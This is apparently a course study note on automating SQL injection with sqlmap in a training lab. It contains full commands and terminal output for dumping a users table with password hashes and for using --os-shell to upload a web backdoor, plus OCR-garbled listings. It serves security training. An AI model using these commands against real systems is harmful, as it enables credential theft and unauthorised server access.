

# Automating the attack

10.3.2. Automating the attack

The SQL injection process we followed can be automated using several tools pre-installed on Kali Linux. In particular, sqlmap can identify and exploit SQL injection vulnerabilities against various database engines.

Let's run sqlmap on our sample web application. We will set the URL we want to scan with -u and specify the parameter to test using -p:

sqlmap -u
[http://192.168.50.19/blindsqli.php?user=1](http://192.168.50.19/blindsqli.php?user=1)
-p user

> [!note]- Screenshot
> ```
> kaligkali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
> tH
> _ _ L116 stable}
> I-l- D1 Pele d
> IIL LLILLI_.! _I
> Lv... |_| https: //sqlmap.org
> [*] starting @ 02:14:54 PM /2022-05-16/
> [14:24:54] [INFO] resuming back-end DBMS “mysql”
> [14:14:54] [INFO] testing connection to the target URL
> got a 302 redirect to ‘http: //192.168.50.16:8@/login1.php?msg-2". Do you want to
> follow? [Y/n]
> you have not declared cookie(s), while server wants to set its own (‘PHPSESSID=F
> bF1f5fa5¥c...a7266cba36"). Do you want to use those [Y/n]
> sqlmap resumed the following injection point(s) from stored session:
> Parameter: user (GET)
> Type: time-based blind
> Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
> Payload: user=1" AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTZB) AND ‘hiPB*="h
> PB
> [14:14:57] [INFO] the back-end DBMS is MySQL
> web server operating system: Linux Debian
> web application technology: PHP, PHP 7.3.33, Apache 2.4.52
> back-end DBMS: MySQL >= 5.0.12
> [14:14:57] [INFO] fetched data logged to text files under ‘/home/kali/.local/sha
> re/sqlmap/output/192.168.50.16"
> [*] ending @ 02:14:57 Pm /2022-05-16/
> Listing 32 - Running sqimap to quickly find SQL. injection points
> We submitted the entire URL after the -u specifier together with the ?user
> parameter set to a dummy value. Once launched, we can press on the
> default options. Sqimap then returns a confirmation that we are dealing with a
> time-based blind SQL injection and provides additional fingerprinting information
> such as the web server operating system, web application technology stack, and
> the backend database.
> ```

Although the above command confirmed that the target URL is vulnerable to SQLi, we can extend our tradecraft by using sqlmap to dump the database table and steal user credentials.

> [!note]- Screenshot
> ```
> Although sqimap is a great tool to automate SQLi attacks, it
> provides next-to-zero stealth. Due to its high volume of traffic,
> sqimap should not be used as a first-choice tool during
> assignments that require staying under the radar.
> ```

To dump the entire database, including user credentials, we can run the same command as earlier with the --dump parameter.

sqlmap -u
[http://192.168.50.19/blindsqli.php?user=1](http://192.168.50.19/blindsqli.php?user=1)
-p user --dump

> [!note]- Screenshot
> ```
> kaligkali:~§ sqlmap -u http://192.168.50.19/blindsqli.php2user=1 -p user --dump
> [*] starting @ 02:23:49 PM /222-@5-16/
> [14:23:49] [INFO] resuming back-end DBMS ‘mysql*
> [14:23:49] [INFO] testing connection to the target URL
> got a 302 redirect to ‘http://192.168.5@.16:8@/login1.php?msg-2". Do you want to
> follow? [Y/n]
> you have not declared cookie(s), while server wants to set its own ("PHPSESSID=b
> 7c9c962b85...c6c72@5dd1"). Do you want to use those [Y/n]
> sqlmap resumed the following injection point(s) from stored session:
> Parameter: user (GET)
> 
> Type: time-based blind
> 
> Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
> 
> Payload: user=1° AND (SELECT 1582 FROM (SELECT(SLEEP(S)))dTzB) AND “hiPB*="h
> PB
> [14:23:52] [INFO] the back-end DBMS is MySQL
> web server operating system: Linux Debian
> web application technology: PHP, Apache 2.4.52, PHP 7.3.33
> back-end DBMS: MySQL >= 5.0.12
> [14:23:52] [WARNING] missing database parameter. sqlmap is going to use the curr
> ent database to enumerate table(s) entries
> [14:23:52] [INFO] fetching current database
> [2:23:52 PM] [WARNING] time-based comparison requires larger statistical model,
> please wait..........0.e0eeeeeeeeeeeeeees (done)
> do you want sqlmap to try to optimize value(s) for DBMS delay responses (option
> *--time-sec*)? [Y/n]
> [14:25:26] [WARNING] it is very important to not stress the network connection d
> uring usage of time-based payloads to prevent potential disruptions
> [14:25:26] [CRITICAL] unable to connect to the target URL. sqlmap is going to re
> try the request(s)
> [14:25:47] [INFO] adjusting time delay to 2 seconds due to good response times
> offsec
> [14:27:01] [INFO] fetching tables for database: ‘offsec*
> [14:27:01] [INFO] fetching number of tables for database ‘offsec’
> ```


> [!note]- Screenshot
> ```
> [02:27:01 PM] [INFO] retrieved: 2
> 
> [02:27:41 PM] [INFO] retrieved: customers
> 
> [02:29:25 PM] [INFO] retrieved: users
> 
> [14:30:38] [INFO] fetching columns for table ‘users’ in database ‘offsec’
> 
> [02:30:38 PM] [INFO] retrieved: 4
> 
> [02:30:44 PM] [INFO] retrieved: id
> 
> [02:31:14 PM] [INFO] retrieved: username
> 
> [@2:33:02 PM] [INFO] retrieved: password
> 
> [2:35:09 PM] [INFO] retrieved: description
> 
> [14:37:56] [INFO] fetching entries for table ‘users’ in database ‘offsec’
> 
> [14:37:56] [INFO] fetching number of entries for table ‘users’ in database ‘offs
> ec’
> 
> [02:37:56 PM] [INFO] retrieved: 4
> 
> [02:38:02 PM] [WARNING] (case) time-based comparison requires reset of statistic
> al model, please wait.....sesseesseeeeeaeeeeeeeeee (done)
> 
> [14:38:24] [INFO] adjusting time delay to 1 second due to good response times
> this is the admin
> 
> [02:40:54 PM] [INFO] retrieved: 1
> 
> [02:41:02 PM] [INFO] retrieved: 21232F297a57a5a743894a0e4a801Fc3
> 
> [02:46:34 PM] [INFO] retrieved: admin
> 
> [@2:47:15 PM] [INFO] retrieved: try harder
> 
> [02:48:44 PM] [INFO] retrieved: 2
> 
> [02:48:54 PM] [INFO] retrieved: f9664ea1803311b35F
> 
> Listing 33 - Running sqimap to Dump Users Credentials Table
> 
> Since we're dealing with a blind time-based SQLi vulnerability, the process of
> fetching the entire database's table is quite slow, but eventually we manage to
> obtain all users' hashed credentials.
> ```

Another sqlmap core feature is the

## --os-shell

parameter, which provides us with a full interactive shell.

Due to their generally high latency, time-based blind SQLi are not ideal when interacting with a shell, so we'll use the first UNION-based SQLi example.

First, we need to intercept the POST request via Burp and save it as a local text file on our Kali VM.

> [!note]- Screenshot
> ```
> POST /search.php HTTP/1.1
> 
> Host: 192.168.50.19
> 
> User-Agent: Mozilla/5.@ (X11; Linux x86_64; rv:91.@) Gecko/2@100101 Firefox/91.0
> 
> Accept: text/html, application/xhtml+xml, application/xml;q=0.9,image/webp,*/*;q=
> 
> 0.8
> 
> ‘Accept-Language: en-US, en;q-0.5
> 
> Accept-Encoding: gzip, deflate
> 
> Content-Type: application/x-www-form-urlencoded
> 
> Content-Length: 9
> 
> Origin: http://192.168.50.19
> 
> Connection: close
> 
> Referer: http://192.168.50.19/search.php
> 
> Cookie: PHPSESSID=vchu1sfs3400s15217pbikag7d
> 
> Upgrade-Insecure-Requests: 1
> 
> item-test
> 
> Listing 34 - intercepting the POST request with Burp
> 
> Next, we can invoke sqImap with the -r parameter, using our file containing the
> POST request as an argument. We also need to indicate which parameter is
> vulnerable to sqimap, in our case item. Finally, we'll include --os-shell along with
> the custom writable folder we found earlier.
> ```


> [!note]- Screenshot
> ```
> kaligkali:~§ sqlmap -r post.txt -p item --os-shell --web-root “/var/www/html/t
> mp”
> 
> [*] starting @ 02:20:47 PM /222-@5-19/
> 
> [14:20:47] [INFO] parsing HTTP request from ‘post’
> 
> [14:20:47] [INFO] resuming back-end DBMS ‘mysql*
> 
> [14:20:47] [INFO] testing connection to the target URL
> 
> sqlmap resumed the following injection point(s) from stored session:
> 
> Parameter: item (POST)
> 
> [14:20:48] [INFO] the back-end DBMS is MySQL
> 
> web server operating system: Linux Ubuntu
> 
> web application technology: Apache 2.4.52
> 
> back-end DBMS: MySQL >= 5.6
> 
> [14:20:48] [INFO] going to use a web backdoor for command prompt
> 
> [14:20:48] [INFO] fingerprinting the back-end DBMS operating system
> 
> [14:20:48] [INFO] the back-end DBMS operating system is Linux
> 
> which web application language does the web server support?
> 
> [1] asp
> 
> [2] aspx
> 
> [3] 3sP
> 
> [4] PHP (default)
> 
> >4
> 
> [14:20:49] [INFO] using */var/www/html/tmp’ as web server document root
> [14:20:49] [INFO] retrieved web server absolute paths: */var/www/html/search.ph
> P
> 
> [14:20:49] [INFO] trying to upload the file stager on */var/wwa/html/tmp/* via L
> IMIT “LINES TERMINATED BY’ method
> 
> [14:20:50] [WARNING] unable to upload the file stager on ‘/var/www/html/tmp/*
> [14:20:50] [INFO] trying to upload the file stager on */var/ww/htm1/tmp/* via U
> NION method
> 
> [14:20:50] [WARNING] expect junk characters inside the file as a leftover from U
> NION query
> 
> [14:20:50] [INFO] the remote file */var/wm/htm1/tmp/tmpuggek.php’ is larger (71
> 3B) than the local file */tmp/sqlmapxkyd11xb82218/tmp3d64i0sz" (7@9B)
> [14:20:51] [INFO] the file stager has been successfully uploaded on */var/www/ht
> m1/tmp/* - http://192.168.5@.19:8@/tmp/tmpuqgek. php
> 
> [14:20:51] [INFO] the backdoor has been successfully uploaded on */var/www/html/
> ‘tmp/* - http://192.168.50.19:8@/tmp/tmpbetmz.php
> 
> [14:20:51] [INFO] calling 0S shell. To quit type ‘x’ or ‘q" and press ENTER
> ```


> [!note]- Screenshot
> ```
> os-shell> id
> 
> do you want to retrieve the command standard output? [Y/n/a] y
> 
> command standard output: ‘uid=33(www-data) gid-33(wwi-data) groups=33(ww-data)'
> 
> os-shell> pwd
> 
> do you want to retrieve the command standard output? [Y/n/a] y
> 
> command standard output: */var/www/html/tmp*
> 
> Listing 35 - Running sqimap with os-shell
> 
> Once sqimap confirms the vulnerability, it prompts us for the language the web
> application is written in, which is PHP in this case. Next, sqimap uploads the
> webshell to the specified web folder and returns the interactive shell, from which
> we can issue regular system commands.
> ```


```sh
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
 4
id
y
pwd
y
```

## Visual Flow



> [!success] What success looks like
> sqlmap prints "parameter ... is vulnerable" and identifies the technique (e.g. "time-based blind", back-end DBMS MySQL). With `--dump` it slowly retrieves rows of the users table including hashes. With `--os-shell` it uploads a backdoor and gives `os-shell>` where `id` returns `uid=33(www-data)`.

> [!danger] Common errors
> - "missing database parameter" → narrow the scope with `-D <db>` and `-T <table>` instead of dumping everything.
> - Endless `[Y/n]` prompts (cookies, redirects, optimization) → add `--batch` to accept defaults automatically.
> - Time-based dumps crawl and may drop the connection → expected for blind SQLi; let sqlmap auto-adjust the delay, or prefer a UNION/error point for `--os-shell`.
> - `--os-shell` needs a writable web folder → pass `--web-root "/var/www/html/tmp"` so the stager is reachable over HTTP.
> - Encoding/quoting of the saved request file → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> **sqlmap** automates everything you did by hand: it finds the injection, figures out the DBMS, and pulls data or drops a shell. Feed it either a URL (`-u`) or a saved HTTP request (`-r request.txt`, ideal for POST/login forms captured in Burp). Note it is loud — not a stealthy tool.

---
%% graph-links %%
## Related
- [[Manual code execution]]
- [[Blind SQL injections]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual and automated code execution/_index|Manual and automated code execution]] · Home: [[🏠 Home]]

